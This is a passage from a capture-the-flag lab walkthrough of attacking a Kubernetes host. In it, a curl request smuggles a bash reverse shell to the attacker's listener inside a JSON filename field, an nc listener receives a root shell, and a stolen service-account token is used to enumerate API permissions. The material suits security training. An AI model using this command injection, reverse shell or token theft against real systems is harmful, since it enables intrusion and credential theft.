 ```

root@webapp-deployment-5d764566f4-mbprj:/# curl -X POST http://172.17.0.3:3000/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.14.7/443 0>&1\""}'

```

At `nc`, there’s a connection:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.235] 47198
id
uid=0(root) gid=0(root) groups=0(root)
hostname
devnode-deployment-cd86fb5c-6ms8d

```

And I’ll upgrade my shell the same as before.

## Shell as root

### Enumeration

#### Inside Container

The namespace associated with this container is, unsurprisingly, dev:

```

root@devnode-deployment-cd86fb5c-6ms8d:/run/secrets/kubernetes.io/serviceaccount# cat namespace   
dev

```

I’ll grab the `token` for use with the API (the `ca.crt` is the same).

#### API

I’ll do the same `auth can-i --list` commands as before with the new token. Nothing interesting for the dev namespace:

```

oxdf@parrot$ kubectl auth can-i --list --token $(cat dev-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
```